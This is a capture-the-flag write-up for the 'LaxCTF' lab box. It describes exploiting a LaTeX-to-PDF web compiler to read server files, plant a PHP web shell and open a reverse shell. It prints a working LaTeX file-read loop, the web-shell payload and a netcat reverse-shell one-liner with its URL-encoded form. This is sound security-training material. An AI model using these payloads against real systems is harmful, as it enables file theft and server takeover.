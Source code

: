# LaxCTF

"Try Harder!"

This one was tough, but fun. I learnt a lot more than I would like about latex.

First, only 22 and 80 are open. 80 reveals a 'TexMaker' website, where you can enter LaTeX script and have it compiled into a PDF for you.

I immediately investigated: reading files into the output (LFI) and executing shell commands. The docs, by the way, for LaTeX are truly hideous - how has it survived and thrived for so long with such shit documentation?

Anyway, I found this blog: https://0day.work/hacking-with-latex/. It shows several techniques, and over the next six hours or so I experimented with them.

- First, shell execution is right out (as far as I can tell). The common commands `immediate`, `write18` or `input|` were all blocked. Even the `\def` trick the blog specifies at the end didn't result in any code execution.

- Second, I could use read to read anywhere. I read `\etc\passwd` but it failed, likely due to latex interpreting `_` as a command character and the system having at least one user like `_apt`. I could do partial extraction via not looping but just going line by line, however I eventually found a better technique: rather than using `\text` to emit the line to the generated PDF, if I used `\typeout` I could write to the compile log which is printed on the page:

    ```
    \newread\file
    \openin\file=/etc/passwd
    \loop\unless\ifeof\file
        \read\file to\fileline 
        \typeout{\fileline}
    \repeat
    \closein\file
    ```

- Third, writing anywhere didn't work. I could write files with no path, so local, but I didn't know where that directory was and so couldn't emit a shell or anything.

With no shell commands, I figured my best bet was going to be adding some PHP to the website somewhere. I knew it was PHP because `dirb` revealed a 200 code for `config.php` (it also revealed a few listable directories, like where the pdf's go).

Using my `typeout` technique, I was able to fully read `/etc/passwd` and found an entry for `/home/king`. Guessing the user flag would be user txt, I successfully read it using the same technique.

At this point, my chief focus was finding where the web directory was. I tried lots of things, even trying to guess various /`var/www/` paths, to no avail. Finally, via this blog https://highon.coffee/blog/lfi-cheat-sheet/, I read `/proc/self/environ`. It failed, but got enough of the content to reveal the OLDPWD of the current user was `/var/www/html/Latex`. Boom!

Reading `config.php` revealed the existence of a `/compile` path. I had tried writing files to `/pdf` and `/assets` but they hadn't worked. Writing text to `/var/www/html/Latest/compile/test.php` did work though, and I was able to browse to it! I prompytly used the following to create a simple PHP web shell:

```
\newwrite\outfile
\openout\outfile=shell.php
\write\outfile{<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>}
\closeout\outfile

some random text
```

Going to `/compile/shell.php?cmd=whoami` got that magic `www-data`. To get a reverse shell I used this script:

    `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.178.75 4444 >/tmp/f`

Though since it had to be in the query string, I first encoded it to url with Burp:

    `%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%37%38%2e%37%35%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66`

Once on the machine, I tried `sudo -l` and `find / -user root -perm -u=s` without success. I checked out that suspicious entry from the bottom of `/etc/passwd`: `/opt/secret`, and found a file readable and executable by everyone that looked to be (via its first line) a aes/cbc/128 encoded file. I've saved it here as [laxctf.secret](./laxctf.secret).